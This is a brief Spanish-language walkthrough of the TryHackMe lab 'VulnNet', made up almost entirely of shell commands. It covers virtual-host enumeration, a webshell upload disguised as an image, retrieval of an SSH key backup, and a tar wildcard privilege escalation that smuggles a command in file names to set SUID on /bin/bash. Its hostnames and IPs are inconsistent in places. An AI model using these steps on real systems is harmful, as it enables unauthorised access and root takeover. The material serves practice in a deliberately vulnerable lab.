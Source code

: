 # VulnNet - TryHackMe

**IP:** 10.10.73.97

## Descubrimiento
```bash
gobuster vhost -u http://10.10.24.117/ -w directory-list-2.3-medium.txt
```
- Subdominio: broadcast.vulnet.tlm

## Explotación
```bash
curl -u developers:9972761drmfsls -F "file=@shell.php5" -F "plupload=1" -F "name=shell.jpg" "http://broadcast.vulnnet.thm/actions/beats_uploader.php"
```

## SSH Access
```bash
curl -u developers:9972761drmfsls http://broadcast.vulnnet.thm/actions/CB_BEATS_UPLOAD_DIR/ssh-backup.tar.gz -o ssh-backup.tar.gz
tar -xf ssh-backup.tar.gz
ssh -i id_rsa server-management@10.10.73.97
```

## Escalada de Privilegios
```bash
echo "chmod 4755 /bin/bash" > privesc.sh
echo "" > "--checkpoint-action=exec=sh privesc.sh"
echo "" > --checkpoint=1
bash -p
```
